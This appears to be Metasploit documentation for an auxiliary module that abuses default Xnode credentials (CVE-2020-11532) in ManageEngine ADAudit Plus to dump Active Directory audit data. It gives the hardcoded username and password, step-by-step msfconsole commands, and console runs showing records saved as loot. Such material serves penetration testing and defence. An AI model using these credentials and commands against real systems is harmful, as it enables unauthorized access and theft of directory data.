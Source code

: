 ## Vulnerable Application
The module exploits default admin credentials for the DataEngine Xnode server in ADAudit Plus versions prior to 6.0.3 (6032)
in order to dump the contents of Xnode data repositories (tables), which may contain (a limited amount of) Active Directory information
including domain names, host names, usernames and SIDs.
The module can also be used against patched ADAudit Plus versions if the correct credentials are provided.

The module's `check` method attempts to authenticate to the remote Xnode server. The default credentials are `atom`:`chegan`.
If the credentials are valid, the module will perform a few requests to the Xnode server to obtain information like the Xnode version.
This is mostly done as a sanity check to ensure the Xnode server is working as expected.

Next, the module will iterate over a list of known Xnode data repositories and perform several requests for each in order to:
- Check if the data repository is configured on the target
- Obtain the total number of records in the data repository
- Obtain both the lowest and the highest value for the ID field (column). These values will be used
to determine the range of possible records to be queried.

If a given data repository exists, the module uses the above information to dump the data repository contents.
The maximum number of records returned for a search query is 10. To overcome this, the module performs series of requests
using the `dr:/dr_search` action, while specifying the ID values for each record.
For example, if the lowest observed ID value is 15 and the highest is 41, the module will perform three requests:
1. A request for the records with ID values 15 to 24
2. A request for the records with ID values 25 to 34
3. A request for the records with ID values 35 to 41
Empty records are ignored.

To view the raw Xnode requests and responses, enter `set VERBOSE true` before running the module.

By default, the module dumps only the data repositories (tables) and fields (columns) specified in the configuration file.
The configuration file can be set via the CONFIG_FILE option, but this is not required because
a default config file exists at `data/exploits/manageengine_xnode/CVE-2020-11532/adaudit_plus_xnode_conf.yaml`.
The configuration file is then also used to add labels to the values sent by Xnode in response to a query.
This means that for every value in the Xnode response, the module will add the corresponding field name to the results
before writing those to a JSON file in ~/.msf4/loot.

It is also possible to use the DUMP_ALL option to obtain all data in all known data repositories without specifying data field names.
However, in the latter case the data won't be labeled.

This module has been successfully tested against ManageEngine ADAudit Plus 6.0.3 (6031) running on Windows Server 2012 R2
and ADAudit Plus 6.0.7 (6076) running on Windows Server 2019.

## Installation Information
Vulnerable versions of ADAudit Plus are available [here](https://archives2.manageengine.com/active-directory-audit/).
All versions from 6000 through 6031 are configured with default Xnode credentials.
However, testing against vulnerable versions from the archives will make data enumeration impossible because
the free trials for those versions do not seem to allow ADAudit Plus to
actually start collecting data that can then be accessed via Xnode.
However, apart from some configuration changes, Xnode functions the same way on patched versions as it does on vulnerable versions,
so it is possible to test the modules against patched versions as long as the correct credentials are provided.
A free 30-day trial of the latest version of ADAudit Plus can be downloaded
[here](https://www.manageengine.com/products/active-directory-audit/download.html).
To install, just run the .exe and follow the instructions.
In order to configure a patched ManageEngine ADAudit Plus instance for testing, follow these steps:
- Open the Xnode config file at `<install_dir>\apps\dataengine-xnode\conf\dataengine-xnode.conf`
- Note down the username and password
- Insert the following line:
```
xnode.connector.accept_remote_request = true
```
To launch ADAudit Plus, run Command Prompt as administrator and run: `<install_dir>\bin\run.bat`

## Verification Steps
1. Start msfconsole
2. Do: `use auxiliary/gather/manageengine_adaudit_plus_xnode_enum`
3. Do: `set RHOSTS [IP]`
4. Do: `run`

## Options
### CONFIG_FILE
YAML File specifying the data repositories (tables) and fields (columns) to dump.
### DUMP_ALL
Dump all data from the available data repositories (tables). If true, CONFIG_FILE will be ignored.

## Scenarios
### ManageEngine ADAudit Plus 6.0.3 (6031) running on Windows Server 2012 R2
```
msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > options

Module options (auxiliary/gather/manageengine_adaudit_plus_xnode_enum):

   Name         Current Setting                                                Required  Description
   ----         ---------------                                                --------  -----------
   CONFIG_FILE  /home/wynter/dev/metasploit-framework/data/exploits/manageeng  no        YAML file specifying the data repositories (tables) and fields (columns) to dump
                ine_xnode/CVE-2020-11532/adaudit_plus_xnode_conf.yaml
   DUMP_ALL     false                                                          no        Dump all data from the available data repositories (tables). If true, CONFIG_FILE will be ignored.
   PASSWORD     chegan                                                         yes       Password used to authenticate to the Xnode server
   RHOSTS       192.168.1.41                                                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        29118                                                          yes       The target port (TCP)
   USERNAME     atom                                                           yes       Username used to authenticate to the Xnode server

msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > run
[*] Running module against 192.168.1.41

[*] 192.168.1.41:29118 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.1.41:29118 - Target seems to be Xnode.
[+] 192.168.1.41:29118 - The target appears to be vulnerable. Successfully authenticated to the Xnode server.
[*] 192.168.1.41:29118 - Obtained expected Xnode "de_healh" status: "GREEN".
[*] 192.168.1.41:29118 - Target is running Xnode version: "XNODE_1_0_0".
[*] 192.168.1.41:29118 - Obtained Xnode installation path: "C:\Program Files (x86)\ManageEngine\ADAudit Plus\apps\dataengine-xnode".
[*] 192.168.1.41:29118 - Data repository AdapFileAuditLog is empty.
[*] 192.168.1.41:29118 - The data repository AdapPowershellAuditLog is not available on the target.
[*] 192.168.1.41:29118 - The data repository AdapSysMonAuditLog is not available on the target.
[*] 192.168.1.41:29118 - The data repository AdapDNSAuditLog is not available on the target.
[*] 192.168.1.41:29118 - The data repository AdapADReplicationAuditLog is not available on the target.
[*] Auxiliary module execution completed
```
### ManageEngine ADAudit Plus 6.0.7 (6076) running on Windows Server 2019 (custom password)
```
msf6 > use auxiliary/gather/manageengine_adaudit_plus_xnode_enum
msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > set rhosts 192.168.1.25
rhosts => 192.168.1.25
msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > set password custom_password
password => custom_password
msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > options 

Module options (auxiliary/gather/manageengine_adaudit_plus_xnode_enum):

   Name         Current Setting                                                                                                 Required  Description
   ----         ---------------                                                                                                 --------  -----------
   CONFIG_FILE  /root/github/manageengine/metasploit-framework/data/exploits/manageengine_xnode/CVE-2020-11532/adaudit_plus_xn  no        YAML file specifying the data repositories (tables) and fields (columns) to dump
                ode_conf.yaml
   DUMP_ALL     false                                                                                                           no        Dump all data from the available data repositories (tables). If true, CONFIG_FILE will be ignored.
   PASSWORD     custom_password                                                                                                 yes       Password used to authenticate to the Xnode server
   RHOSTS       192.168.1.25                                                                                                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        29118                                                                                                           yes       The target port (TCP)
   USERNAME     atom                                                                                                            yes       Username used to authenticate to the Xnode server

msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > run

[*] Running module against 192.168.1.25

[*] 192.168.1.25:29118 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.1.25:29118 - The target appears to be vulnerable. Successfully authenticated to the Xnode server.
[*] 192.168.1.25:29118 - Obtained expected Xnode "de_healh" status: "GREEN".
[*] 192.168.1.25:29118 - Target is running Xnode version: "DataEngine-XNode 1.1.0 (1100)".
[*] 192.168.1.25:29118 - Obtained Xnode installation path: "C:\Program Files\ManageEngine\ADAudit Plus\apps\dataengine-xnode".
[*] 192.168.1.25:29118 - Data repository AdapFileAuditLog is empty.
[+] 192.168.1.25:29118 - Data repository AdapPowershellAuditLog contains 261 records with ID numbers between 1.0 and 303.0.
[*] 192.168.1.25:29118 - Data repository AdapSysMonAuditLog is empty.
[+] 192.168.1.25:29118 - Data repository AdapDNSAuditLog contains 722 records with ID numbers between 1.0 and 926.0.
[*] 192.168.1.25:29118 - Data repository AdapADReplicationAuditLog is empty.
[*] 192.168.1.25:29118 - Attempting to request 261 records for data repository AdapPowershellAuditLog between IDs 1 and 303. This could take a while...
[*] 192.168.1.25:29118 - Processed 25 queries (max 10 records per query) so far. The last queried record ID was 250. The max ID is 303...
[+] 192.168.1.25:29118 - Saving 261 records from the AdapPowershellAuditLog data repository to /root/.msf4/loot/20220610073738_default_192.168.1.25_xnode_powershell_099421.json
[*] 192.168.1.25:29118 - Attempting to request 722 records for data repository AdapDNSAuditLog between IDs 1 and 926. This could take a while...
[*] 192.168.1.25:29118 - Processed 25 queries (max 10 records per query) so far. The last queried record ID was 250. The max ID is 926...
[*] 192.168.1.25:29118 - Processed 50 queries (max 10 records per query) so far. The last queried record ID was 500. The max ID is 926...
[*] 192.168.1.25:29118 - Processed 75 queries (max 10 records per query) so far. The last queried record ID was 750. The max ID is 926...
[+] 192.168.1.25:29118 - Saving 722 records from the AdapDNSAuditLog data repository to /root/.msf4/loot/20220610073754_default_192.168.1.25_xnode_dnsaudit_775121.json
[*] Auxiliary module execution completed
msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) >
```

